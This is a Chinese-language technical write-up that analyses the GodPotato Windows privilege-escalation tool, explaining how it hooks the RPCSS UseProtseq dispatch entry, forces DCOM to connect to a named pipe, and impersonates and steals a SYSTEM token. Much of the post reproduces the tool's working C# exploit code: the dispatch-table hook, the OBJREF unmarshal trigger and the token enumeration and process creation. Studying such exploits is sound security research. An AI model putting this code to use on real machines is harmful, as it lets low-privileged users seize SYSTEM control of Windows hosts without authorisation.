






概述：GodPotato 的原理分析
相关链接
- BeichenDream/GodPotato
- 相关参考
- RedTeamNotes/土豆提权原理.md at master · xf555er/RedTeamNotes - 阅力值 ⭐⭐⭐⭐
- 从烂土豆开始的土豆家族入门 | Z3ratu1’s blog
- RPC 相关参考
GodPotato 简述
一个通过 DCOM 提权的方式。利用了 Windows rpcss 服务对 OXID 处理的漏洞进行提权操作。
相关说明
OXID:
OXID（对象导出器标识符）是一个用于标识网络上 DCOM 对象的唯一数字。
当一个客户端应用程序想要访问一个远程 COM 对象时，它需要使用 OXID 查询来获取对象所在服务器的信息（绑定信息），随即 RPC 服务会调用 ResolveOxid2 函数来解析 OXID 的查询请求，并返回绑定信息
使用条件
适用于从 Windows Server 2012 到 Windows Server 2022，以及 Windows 8 到 Windows 11
需要执行用户拥有 ImpersonatePrivilege 权限。
场景演示
编译 GodPotato 源码，运行后就可以看到 nt authority\system 执行的 whoami 输出。

源码分析及说明
主要是借助 Windows 的 ImpersonateNamedPipeClient 模拟。当提供服务的一方具有高权限时，就可以借助这个接口实现创建高权限的逻辑。另一边，还需要创建一个管道用来模拟访问当前管道的进程，以及一个具备高权限的进程来连接当前管道。
相关知识点
RPC 相关的结构体
RPC 在发起会话时，主要通过 RPC_SERVER_INTERFACE 结构体传递重要的参数和标识信息。
-
RPC_SERVER_INTERFACE 结构体如下所示： 用于描述 RPC 服务器的接口，包含有关接口的元数据，例如接口的
UUID（通用唯一识别码）和版本信息typedef struct _RPC_SERVER_INTERFACE { unsigned int Length; RPC_SYNTAX_IDENTIFIER InterfaceId; RPC_SYNTAX_IDENTIFIER TransferSyntax; PRPC_DISPATCH_TABLE DispatchTable; // RPC_DISPATCH_TABLE unsigned int RpcProtseqEndpointCount; PRPC_PROTSEQ_ENDPOINT RpcProtseqEndpoint; RPC_MGR_EPV __RPC_FAR *DefaultManagerEpv; void const __RPC_FAR *InterpreterInfo; // _MIDL_SERVER_INFO_ } RPC_SERVER_INTERFACE, __RPC_FAR * PRPC_SERVER_INTERFACE; -
RPC_DISPATCH_TABLE 结构体如下所示： 用于表示 RPC 的调度表，里面包含一组函数指针，每个指针指向特定 RPC 操作的函数，此表用来定位和调用适当的 RPC 函数来响应
RPCSS请求typedef struct { unsigned int DispatchTableCount; RPC_DISPATCH_FUNCTION __RPC_FAR * DispatchTable; int Reserved; } RPC_DISPATCH_TABLE, __RPC_FAR * PRPC_DISPATCH_TABLE; -
MIDL_SERVER_INFO 结构体如下所示：
MIDL用于定义 RPC 接口和数据结构，它包含了DispatchTable（实际函数调用表）、FmtStringOffset（格式字符串偏移表）和ProcString（格式字符串)，其中ProcString是包含了所有 RPC 函数的格式字符串，这些格式字符串定义了每个 RPC 函数的参数类型、顺序以及其他属性，而格式字符串偏移表的每个元素就是指向procString中特定 RPC 函数的格式字符串的起始偏移量typedef struct _MIDL_SERVER_INFO_ { PMIDL_STUB_DESC pStubDesc; const SERVER_ROUTINE * DispatchTable; PFORMAT_STRING ProcString; const unsigned short * FmtStringOffset; const STUB_THUNK * ThunkTable; } MIDL_SERVER_INFO, *PMIDL_SERVER_INFO;
它们三个之间的关系结构如下所示，基本包括了一次 RPC 请求过程中关键信息：

RPCSS 服务
RPC RPCSS 是 Windows 系统中的一个重要服务，其全称为 Remote Procedure Call (RPC) Services。该服务主要负责管理远程过程调用（RPC）的请求和响应。其中一个使用最频繁的 GUID 就是 18f70770-8e64-11cf-9af1-0020af6e72f4。
另外的，Windows 系统中提供 COM 能力的一个关键 DLL 就是 combase.dll。基本上所有启动的进程都加载了 combase.dll。
C# 委托概念
C# 中一种特殊的类型，它定义了方法的签名，并可以指向任何与该签名匹配的方法。委托允许将方法作为参数传递给其他方法，或者在一个类中存储对方法的引用。类似于 C/C++ 中的函数指针，但是比函数指针更加灵活。
源码分析
要了解 GodPotato 的原理，包括但不限于对上述相关知识点的了解，除此之位，还要对相关 RPC 接口、创建 COM 对象的流程、管道的连接等都要有足够的了解。下面将 2 GodPotato 的工作主要分为准备（初始化）、执行（执行 Hook）、提权（创建高权限）、利用（创建进程）四个部分。
准备（初始化）
需要了解的相关知识点：
初始化部分主要是创建了 GodPotatoContext 来获取 RPC 的相关信息，此类是整个 GodPotato 项目的核心。 todo 原理有待学习。
在 GodPotatoContext 类中，调用了 InitContext() 函数来进行初始化操作，获取对应参数的目标函数。
InitContext 函数内，首先获取了 combase.dll 模块的基址，然后在 combase.dll 模块内查找前文提到的 GUID 18f70770-8e64-11cf-9af1-0020af6e72f4，对应 combase.dll 内的内容如下截图所示：

这一步的操作主要是获取与 RPC 相关的接口结构 RPC_SERVER_INTERFACE 并解析 MIDL(Microsoft Interface Definition Language)。
相关代码：
// patternStream: 60 00 00 00 70 07 F7 18 64 8E CF 11 9A F1 00 20 AF 6E 72 F4
var s = Sunday.Search(dllContent, patternStream.ToArray());
RPC_SERVER_INTERFACE rpcServerInterface = (RPC_SERVER_INTERFACE)Marshal.PtrToStructure(new IntPtr(processModule.BaseAddress.ToInt64() + s[0]), typeof(RPC_SERVER_INTERFACE));
RPC_DISPATCH_TABLE rpcDispatchTable = (RPC_DISPATCH_TABLE)Marshal.PtrToStructure(rpcServerInterface.DispatchTable, typeof(RPC_DISPATCH_TABLE));
MIDL_SERVER_INFO midlServerInfo = (MIDL_SERVER_INFO)Marshal.PtrToStructure(rpcServerInterface.InterpreterInfo, typeof(MIDL_SERVER_INFO));
DispatchTablePtr = midlServerInfo.DispatchTable;
IntPtr fmtStringOffsetTablePtr = midlServerInfo.FmtStringOffset;
procString = midlServerInfo.ProcString;上述代码的 DispatchTablePtr 指向的位置就是我们要 hook 的目标函数地址。该函数对应 GUID 为 18f70770-8e64-11cf-9af1-0020af6e72f4 RPC 接口。
调试模式下 DispatchTablePtr 指向的内容为 0x00007ffff94e2ee0：

借助 RPCView 查看该 RPC 对应的 Interface，如下所示，其中第一个接口（Index 为 0）指向位置为 0x00007ffff94e2ee0，和通过搜索获取到的 DispatchTablePtr 一致。

_UseProtseq 函数原型：
__int64 __fastcall UseProtseq(
void *hRpc,
unsigned __int16 wTowerId,
const wchar_t *pwszListenAddress,
unsigned int *pdwTCPPort,
tagDUALSTRINGARRAY **ppsaNewBindings,
tagDUALSTRINGARRAY **ppsaSecurity)除此之外，还要匹配目标函数 _UseProtSeq 的参数，通过 RPC 调度表 UseProtseqFunctionPtr 和 格式字符串偏移表 UseProtseqFunctionParamCount 获取。这一步的目的主要是为了 Hook 时代理函数匹配目标函数。
dispatchTable = new IntPtr[rpcDispatchTable.DispatchTableCount];
fmtStringOffsetTable = new short[rpcDispatchTable.DispatchTableCount];
// 读取RPC调度表
for (int i = 0; i < dispatchTable.Length; i++)
{
dispatchTable[i] = Marshal.ReadIntPtr(DispatchTablePtr, i * IntPtr.Size);
}
// 读取格式字符串偏移表
for (int i = 0; i < fmtStringOffsetTable.Length; i++)
{
fmtStringOffsetTable[i] = Marshal.ReadInt16(fmtStringOffsetTablePtr, i * Marshal.SizeOf(typeof(short)));
}
UseProtseqFunctionPtr = dispatchTable[0];
UseProtseqFunctionParamCount = Marshal.ReadByte(procString, fmtStringOffsetTable[0] + 19);fmtStringOffsetTable 数组的第一个元素表示指向第一个 RPC 函数格式字符串在 procString 中的起始偏移量，然后在此偏移量的基础上+19，这是因为此位置存储着 RPC 函数的参数数量，所以 UseProtseqFunctionParamCount 变量表示 RPC 函数的参数数量。
获取到 RPC 调度表指针后，我们还需要更具参数数量，指定我们的代理函数：
if (CombaseModule == IntPtr.Zero)
{
throw new Exception("No combase module found");
}
else if (dispatchTable == null || procString == IntPtr.Zero || UseProtseqFunctionPtr == IntPtr.Zero)
{
throw new Exception("Cannot find IDL structure");
}
/*
string delegateFunName = "delegateFun" + UseProtseqFunctionParamCount;
string funName = "fun" + UseProtseqFunctionParamCount;
Type delegateFunType = typeof(NewOrcbRPC).GetNestedType(delegateFunName, System.Reflection.BindingFlags.Public);
this.useProtseqDelegate = Delegate.CreateDelegate(delegateFunType, newOrcbRPC, funName);
*/
// Code obfuscation support
else if (UseProtseqFunctionParamCount == 4)
{
delegateFun4 df4 = newOrcbRPC.fun4;
useProtseqDelegate = df4;
}
else if (UseProtseqFunctionParamCount == 5)
{
delegateFun5 df5 = newOrcbRPC.fun5;
useProtseqDelegate = df5;
}
else if (UseProtseqFunctionParamCount == 6)
{
delegateFun6 df6 = newOrcbRPC.fun6;
useProtseqDelegate = df6;
}
else if (UseProtseqFunctionParamCount == 7)
{
delegateFun7 df7 = newOrcbRPC.fun7;
useProtseqDelegate = df7;
}
else if (UseProtseqFunctionParamCount == 8)
{
delegateFun8 df8 = newOrcbRPC.fun8;
useProtseqDelegate = df8;
}
else if (UseProtseqFunctionParamCount == 9)
{
delegateFun9 df9 = newOrcbRPC.fun9;
useProtseqDelegate = df9;
}
else if (UseProtseqFunctionParamCount == 10)
{
delegateFun10 df10 = newOrcbRPC.fun10;
useProtseqDelegate = df10;
}
else if (UseProtseqFunctionParamCount == 11)
{
delegateFun11 df11 = newOrcbRPC.fun11;
useProtseqDelegate = df11;
}
else if (UseProtseqFunctionParamCount == 12)
{
delegateFun12 df12 = newOrcbRPC.fun12;
useProtseqDelegate = df12;
}
else if (UseProtseqFunctionParamCount == 13)
{
delegateFun13 df13 = newOrcbRPC.fun13;
useProtseqDelegate = df13;
}
else if (UseProtseqFunctionParamCount == 14)
{
delegateFun14 df14 = newOrcbRPC.fun14;
useProtseqDelegate = df14;
}
else {
throw new Exception($"UseProtseqFunctionParamCount == ${UseProtseqFunctionParamCount}");
}执行（执行 hook）
这一步就是将我们实现的代理函数写入目标函数实现 hook，将指向 RPC 调度表的指针修改为自定义函数的指针。
此处使用到了 C# 中的委托概念，委托可以引用一个或多个函数。GetFunctionPointerForDelegate 函数用于将委托转换为函数指针，useProtseqDelegate 是一个委托变量，也就是准备阶段根据参数数量指定的代理函数。
public void HookRPC()
{
uint old;
VirtualProtect(DispatchTablePtr, (uint)(IntPtr.Size * dispatchTable.Length), 0x04, out old);
Marshal.WriteIntPtr(DispatchTablePtr, Marshal.GetFunctionPointerForDelegate(useProtseqDelegate));
IsHook = true;
}关于代理函数 userProtseqDelegate 函数，可以大致看下，最后都调用的 fun 函数，使用的都是最后两个变量，参考 _UseProtseq 这两个变量是 ppsaNewBindings 和 ppsaSecurity。
public int fun4(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3)
{
return fun(p2, p3);
}
public int fun5(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4)
{
return fun(p3, p4);
}
public int fun6(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5)
{
return fun(p4, p5);
}
public int fun7(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6)
{
return fun(p5, p6);
}
public int fun8(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7)
{
return fun(p6, p7);
}
public int fun9(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8)
{
return fun(p7, p8);
}
public int fun10(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9)
{
return fun(p8, p9);
}
public int fun11(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10)
{
return fun(p9, p10);
}
public int fun12(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11)
{
return fun(p10, p11);
}
public int fun13(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11, IntPtr p12)
{
return fun(p11, p12);
}
public int fun14(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11, IntPtr p12, IntPtr p13)
{
return fun(p12, p13);
}fun 函数
也就是我们自己实现的 _UseProtseq 函数的代码如下所示，主要操作就是定义了一个字符串数组 endpoints，用于重定向命名管道的通信，然后将此字符串数组写入为进程新分配的内存中。
godPotatoContext.clientPipe 是一个特定的字符串，定义了一个命名管道的路径，当 RPCSS 调用 hook 后的 RPC 函数，就会修改 RPC 服务的绑定设置为指定的命名管道路径，从而让 RPCSS 连接进这个命名管道中，为后续的身份令牌模拟操作奠定基础。
public int fun(IntPtr ppdsaNewBindings, IntPtr ppdsaNewSecurity)
{
string[] endpoints = { godPotatoContext.clientPipe, "ncacn_ip_tcp:fuck you !" };
int entrieSize = 3;
for (int i = 0; i < endpoints.Length; i++)
{
entrieSize += endpoints[i].Length;
entrieSize++;
}
int memroySize = entrieSize * 2 + 10;
IntPtr pdsaNewBindings = Marshal.AllocHGlobal(memroySize);
for (int i = 0; i < memroySize; i++)
{
Marshal.WriteByte(pdsaNewBindings, i, 0x00);
}
int offset = 0;
Marshal.WriteInt16(pdsaNewBindings, offset, (short)entrieSize);
offset += 2;
Marshal.WriteInt16(pdsaNewBindings, offset, (short)(entrieSize - 2));
offset += 2;
for (int i = 0; i < endpoints.Length; i++)
{
string endpoint = endpoints[i];
for (int j = 0; j < endpoint.Length; j++)
{
Marshal.WriteInt16(pdsaNewBindings, offset, (short)endpoint[j]);
offset += 2;
}
offset += 2;
}
Marshal.WriteIntPtr(ppdsaNewBindings, pdsaNewBindings);
return 0;
}到此，所有的准备工作都进行完成。下一步就是触发我们自定义的 _UseProtseq。
提权（创建高权限）
前文已经提到了，当 RPCSS 发起调用，就会执行到 Hook 的 _UseProtseq，就会修改 RPC 服务的绑定设置为指定的命名管道路径，从而让 RPCSS 连接进这个命名管道中。
1. 创建一个命名管道
在GodPotatoContext类中定义了一个PipeServer函数，用于创建并操纵命名管道。
PipeServer函数里，首先使用CreateNamedPipe函数创建一个命名管道，然后调用ConnectNamePipe函数监听命名管道的连接
当客户端连接进来后调用ImpersonateNamedPipeClient函数来模拟客户端的身份，并检查当前进程的模拟级别是否不足identification。如果是，则调用RevertToSelf函数结束模拟并恢复至模拟前的身份
在Windows中，模拟级别定义了一个线程可以执行的操作类型，级别从低都高依次是：Anonymous、Identification、Impersonation、Delegation
Anonymous(匿名)：无法获取客户端的任何信息Identification(标识)：允许获取客户端的有关信息,但无法模拟客户端的身份来执行代码Impersonation(模拟)：允许模拟客户端的身份来执行代码，但仅限于服务器本地Delegation(委派)：允许模拟客户端的身份在与域上任何计算机执行代码，所谓的“域委派攻击”就是基于此类机制来实现的
2. 创建 COM 对象
创建 COM 对象，同时利用该 COM 对象创建伪装 COM，修改其连接的方式和协议。这一步的目的是触发 Hook 函数，让客户端管道（RPCSS）可以连接成功，然后执行 ImpersonateNamedPipeClient 操作。
private readonly static string binding = "127.0.0.1";
private readonly static TowerProtocol towerProtocol = TowerProtocol.EPM_PROTOCOL_TCP;创建 COM 对象
public GodPotatoUnmarshalTrigger(GodPotatoContext godPotatoContext) {
this.godPotatoContext = godPotatoContext;
if (!godPotatoContext.IsStart)
{
throw new Exception("GodPotatoContext was not initialized");
}
pIUnknown = Marshal.GetIUnknownForObject(fakeObject);
NativeMethods.CreateBindCtx(0, out bindCtx);
NativeMethods.CreateObjrefMoniker(pIUnknown, out moniker);
}触发 RPCSS
public int Trigger() {
string ppszDisplayName;
moniker.GetDisplayName(bindCtx, null, out ppszDisplayName);
ppszDisplayName = ppszDisplayName.Replace("objref:", "").Replace(":", "");
byte[] objrefBytes = Convert.FromBase64String(ppszDisplayName);
ObjRef tmpObjRef = new ObjRef(objrefBytes);
godPotatoContext.ConsoleWriter.WriteLine($"[*] DCOM obj GUID: {tmpObjRef.Guid}");
godPotatoContext.ConsoleWriter.WriteLine($"[*] DCOM obj IPID: {tmpObjRef.StandardObjRef.IPID}");
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj OXID: 0x{0:x}", tmpObjRef.StandardObjRef.OXID);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj OID: 0x{0:x}", tmpObjRef.StandardObjRef.OID);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj Flags: 0x{0:x}", tmpObjRef.StandardObjRef.Flags);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj PublicRefs: 0x{0:x}", tmpObjRef.StandardObjRef.PublicRefs);
ObjRef objRef = new ObjRef(IID_IUnknown,
new ObjRef.Standard(0, 1, tmpObjRef.StandardObjRef.OXID, tmpObjRef.StandardObjRef.OID, tmpObjRef.StandardObjRef.IPID,
new ObjRef.DualStringArray(new ObjRef.StringBinding(towerProtocol, binding), new ObjRef.SecurityBinding(0xa, 0xffff, null))));
byte[] data = objRef.GetBytes();
godPotatoContext.ConsoleWriter.WriteLine($"[*] Marshal Object bytes len: {data.Length}");
IntPtr ppv;
godPotatoContext.ConsoleWriter.WriteLine($"[*] UnMarshal Object");
return UnmarshalDCOM.UnmarshalObject(data,out ppv);
}上述代码中，手续爱你是根据已经创建的 DCOM 对象来获取绑定的描述内容，再转换为 ObjRef 对象，获取的 ppszDisplayName 如下所示：
"objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAADanxjoznhD912n2NNBGasEAgwAANiD///aLUter0m/OVIAPAAHAEgAUAAtAFAAcgBvAEIAbwBvAGsANAA0ADAAAAAHADEAOQAyAC4AMQA2ADgALgAxADAANgAuADEAAAAHADEAOQAyAC4AMQA2ADgALgAyADIAMAAuADEAAAAHADEAMAAuADEAOAAuADEAMwAzAC4AMgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:"
// 替换字符串
"TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAADanxjoznhD912n2NNBGasEAgwAANiD///aLUter0m/OVIAPAAHAEgAUAAtAFAAcgBvAEIAbwBvAGsANAA0ADAAAAAHADEAOQAyAC4AMQA2ADgALgAxADAANgAuADEAAAAHADEAOQAyAC4AMQA2ADgALgAyADIAMAAuADEAAAAHADEAMAAuADEAOAAuADEAMwAzAC4AMgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA=="如下图所示，RPCSS 将发起的 COM 对象操作连接到了管道 GodPotato\pipe\epmapper，这一步操作是在自定义的 Hook 内完成的。

3. 枚举进程，获取权限
调用ListProcessTokens函数检查每个句柄的PID，来确定当前进程的句柄并获取其令牌，然后判断此令牌是否拥有SYSTEM权限；最后通过此令牌创建一个新的WindowsIdentity实例，后续可通过此实例来使用令牌创建高权限的进程。
if (ImpersonateNamedPipeClient(pipeServerHandle))
{
systemIdentity = WindowsIdentity.GetCurrent();
if (systemIdentity.ImpersonationLevel <= TokenImpersonationLevel.Identification)
{
RevertToSelf();
}
ConsoleWriter.WriteLine("[*] CurrentUser: " + systemIdentity.Name);
ConsoleWriter.WriteLine("[*] CurrentsImpersonationLevel: " + systemIdentity.ImpersonationLevel);
ConsoleWriter.WriteLine("[*] Start Search System Token");
bool isFindSystemToken = false;
if (systemIdentity.ImpersonationLevel >= TokenImpersonationLevel.Impersonation)
{
SharpToken.TokenuUils.ListProcessTokens(-1, processToken => {
if (processToken.SID == "S-1-5-18" && processToken.ImpersonationLevel >= TokenImpersonationLevel.Impersonation && processToken.IntegrityLevel >= SharpToken.IntegrityLevel.SystemIntegrity)
{
systemIdentity = new WindowsIdentity(processToken.TokenHandle);
ConsoleWriter.WriteLine("[*] PID : {0} Token:0x{1:x} User: {2} ImpersonationLevel: {3}", processToken.TargetProcessId, processToken.TargetProcessToken, processToken.UserName, processToken.ImpersonationLevel);
isFindSystemToken = true;
processToken.Close();
return false;
}
processToken.Close();
return true;
});
}
ConsoleWriter.WriteLine("[*] Find System Token : " + isFindSystemToken);
RevertToSelf();
}利用（创建进程）
最后就是通过上一步创建的 Token 创建进程了
WindowsIdentity systemIdentity = godPotatoContext.GetToken();
if (systemIdentity != null)
{
ConsoleWriter.WriteLine("[*] CurrentUser: " + systemIdentity.Name);
TokenuUils.createProcessReadOut(ConsoleWriter, systemIdentity.Token, potatoArgs.cmd);
}